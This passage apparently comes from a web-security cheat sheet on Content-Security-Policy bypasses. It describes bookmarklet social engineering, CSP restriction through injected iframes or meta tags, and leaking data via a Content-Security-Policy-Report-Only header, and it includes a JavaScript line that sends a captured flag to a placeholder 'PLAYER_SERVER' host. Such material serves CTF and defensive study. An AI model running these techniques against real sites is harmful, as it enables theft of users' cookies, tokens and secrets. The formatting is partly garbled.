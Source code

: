 ```
        break
      }
    }
    new Image().src = "http://PLAYER_SERVER/?" + prefix //Exfiltrate the flag
    console.log(prefix)
  }

  run()
</script>
```
```
### Via Bookmarklets

This attack would imply some social engineering where the attacker **convinces the user to drag and drop a link over the bookmarklet of the browser**. This bookmarklet would contain **malicious javascript** code that when drag\&dropped or clicked would be executed in the context of the current web window, **bypassing CSP and allowing to steal sensitive information** such as cookies or tokens.

For more information [[https://socradar.io/csp-bypass-unveiled-the-hidden-threat-of-bookmarklets/|**check the original report here**]].

### CSP bypass by restricting CSP

In [[https://github.com/google/google-ctf/tree/master/2023/web-biohazard/solution|**this CTF writeup**]], CSP is bypassed by injecting inside an allowed iframe a more restrictive CSP that disallowed to load a specific JS file that, then, via **prototype pollution** or **dom clobbering** allowed to **abuse a different script to load an arbitrary script**.

You can **restrict a CSP of an Iframe** with the **`csp`** attribute:

```html
[https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]](https://biohazard-web.2023.ctfcompetition.com/view/[bio_id])

```
```
In [[https://github.com/aszx87410/ctf-writeups/issues/48|**this CTF writeup**]], it was possible via **HTML injection** to **restrict** more a **CSP** so a script preventing CSTI was disabled and therefore the **vulnerability became exploitable.**\
CSP can be made more restrictive using **HTML meta tags** and inline scripts can disabled **removing** the **entry** allowing their **nonce** and **enable specific inline script via sha**:

```html
<!--
meta-content-security-policy: script-src 'self'
'unsafe-eval' 'strict-dynamic'
'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2boz%2bCtD7RE4='
'sha256-Tz/iYFTnNe0de6izIdG%2bo6Xitl18uZfQWapSbxHE6Ic=';
-->

```
```
### JS exfiltration with Content-Security-Policy-Report-Only

If you can manage to make the server responds with the header **`Content-Security-Policy-Report-Only`** with a **value controlled by you** (maybe because of a CRLF), you could make it point your server and if you **wraps** the **JS content** you want to exfiltrate with **`<script>`** and because highly probable `unsafe-inline` isn't allowed by the CSP, this will **trigger a CSP error** and part of the script (containing the sensitive info) will be sent to the server from `Content-Security-Policy-Report-Only`.

For an example [[https://github.com/maple3142/My-CTF-Challenges/tree/master/TSJ%20CTF%202022/Nim%20Notes|**check this CTF writeup**]].

```